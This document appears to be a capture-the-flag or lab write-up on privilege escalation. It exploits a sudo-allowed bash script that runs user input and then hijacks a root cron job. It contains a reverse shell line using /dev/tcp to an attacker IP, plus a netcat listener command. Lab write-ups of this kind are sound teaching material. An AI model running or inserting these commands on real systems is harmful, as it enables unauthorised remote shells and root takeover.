






## Privilege Escalation

### Steps to reproduce

#### Recon

- Dale can sudo with file admin_checks
```
(gyles) NOPASSWD: /home/gyles/admin_checks
```

**Contents admin_checks**

```
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"

```

*We can overwrite $error variable possible*

**Entering /bin/bash in syntax $error 2>/dev/null priv escs us to user dale**



#### Priv escing to root

- Gyles has a file named .bash_history


- Cat this and search for intering stuff




- cat /opt/admin_stuff/script.sh
- Root runs a cronjob on this every minute



executes 2 bash scripts that are also included



- See if we can change any of those included bash files:



**We can change it**

```
nano /usr/local/bin/main_backup.sh
paste [bash -i >& /dev/tcp/10.9.3.63/1234 0>&1] in script
```

save and on attacker machine put:

```
nc -lvnp 1234
```

**Executing and giving us root privileges:**

